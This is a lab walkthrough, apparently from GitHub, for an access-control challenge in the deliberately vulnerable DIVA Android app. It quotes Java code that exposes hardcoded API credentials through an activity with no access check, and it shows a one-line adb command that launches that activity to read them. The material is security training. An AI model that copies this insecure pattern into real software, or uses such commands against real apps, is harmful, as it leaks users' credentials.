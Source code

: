 ## Access Control Part 1

The aim of this activity is to access the credentials without opening the app itself. So lets look at the code of this activity!


#### The vulnerability

The code for this activity:
 
      public void viewAPICredentials(View view) {
            // Calling implicit intent i.e. with app defined action instead of activity class
            Intent i = new Intent();
            i.setAction("jakhar.aseem.diva.action.VIEW_CREDS");
            // Check whether the intent resolves to an activity or not
            if (i.resolveActivity(getPackageManager()) != null){
                startActivity(i);
            }
            else {
                Toast.makeText(this, "Error while getting API details", Toast.LENGTH_SHORT).show();
                Log.e("Diva-aci1", "Couldn't resolve the Intent VIEW_CREDS to our activity");
            }
        }

So to access the credentials, it starts another activity known as VIEW_CREDS, so lets take a look at that activity to see
whether it checks for anything or not

    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_apicreds);
        TextView apicview = (TextView) findViewById(R.id.apicTextView);
        // Connect to vendor cloud
        // Get API credentials and other confidential details of the user
        String apidetails = "API Key: 123secretapikey123\nAPI User name: diva\nAPI Password: p@ssword";

         // Display the details on the app
        apicview.setText(apidetails);
    }
  
  
  
  Nope it does check for anything, even the credentials is being hardcoded into the source code!!!
  
  #### The exploit
  
  So to access the activity to get the credentials(I KNOW YOU ALREADY CAN GET IT FROM THE SOURCE CODE BUT WHATEVER),
  
  just type
          
          adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS
          
  to start the activity and view the credentials
  
  ![yeah](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Access%20Control/Part%201/Screenshot%20from%202019-10-18%2008-33-52.png)
